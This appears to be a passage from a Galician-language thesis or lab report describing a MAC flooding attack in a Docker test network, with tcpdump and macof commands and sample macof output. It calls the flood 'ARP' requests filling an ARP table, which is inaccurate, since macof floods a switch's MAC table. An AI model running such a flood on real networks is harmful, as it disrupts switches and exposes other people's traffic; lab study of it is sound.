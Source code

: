 \begin{enumerate}
\item Previo ao ataque:

Escoita de todos os paquetes que cheguen á rede do contedor atacante:
    
\begin{lstlisting}[,caption={Escoita dos paquetes entrantes á rede do contedor atacante}]
root@9403362d194e:/# tcpdump -i eth0 -X -vv
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
\end{lstlisting}

\item Execución do ataque:

Enviamos numerosas solicitudes \gls{ARP} dende o contedor atacante á rede. Para automatizar o proceso, facemos uso da ferramenta \textit{macof}, pertencente ao paquete de utilidades \textit{dsniff}\footnote{\url{https://www.monkey.org/~dugsong/dsniff/}}.

\begin{lstlisting}[,caption={Execución do ataque \textit{macof}}]
root@9403362d194e:/# macof 
23:35:f0:47:32:2a 1:a9:ca:38:a8:dd 0.0.0.0.33552 > 0.0.0.0.17981: S 215025915:215025915(0) win 512
b1:7b:e5:0:e7:e4 91:fe:39:2e:2e:ae 0.0.0.0.12840 > 0.0.0.0.19430: S 1017556768:1017556768(0) win 512
98:8:33:39:31:80 a5:58:b9:5f:dd:4d 0.0.0.0.20270 > 0.0.0.0.5234: S 795884266:795884266(0) win 512
a8:8:54:1e:6d:e7 7c:2b:df:20:c8:8 0.0.0.0.8086 > 0.0.0.0.51239: S 1625463231:1625463231(0) win 512
25:e9:f:7d:38:77 1f:89:2b:11:0:13 0.0.0.0.43039 > 0.0.0.0.55182: S 199622377:199622377(0) win 512
e8:85:91:32:9a:4c ba:52:5e:41:d7:f0 0.0.0.0.56124 > 0.0.0.0.27045: S 1368523758:1368523758(0) win 512
c0:80:e:b:7c:7c 2d:23:d8:9:2a:d8 0.0.0.0.35983 > 0.0.0.0.9435: S 1477501491:1477501491(0) win 512
.
.
\end{lstlisting}

\item Comprobación do ataque:

Pasado un tempo, no que as numerosas solicitudes \gls{ARP} xa fixeron desbordar a táboa \gls{ARP} do conmutador (a interface Docker \textit{Bridge}), consúltase o estado dos paquetes recibidos polo contedor atacante. Nun principio a idea era que se puidesen ollar paquetes pertencentes á subrede Docker despregada, non obstante os resultados trocaron ben distintos. Comezaron chegar paquetes pertencentes ao exterior da subrede creada para a proba, evidenciando o alcance do ataque e tamén unha posíbel mala xestión da seguridade da rede da \gls{MV} sobre a que se construíu a estrutura para a realización desta proba. A imaxe \ref{ataqueMacFlooding} amosa este feito (os enderezos \gls{IP} foron ocultados para respectar a privacidade). Deste xeito, dende o contedor atacante é posíbel observar conexións doutras máquinas con páxinas externas como, por exemplo, a Universidade de Texas.


\end{enumerate}
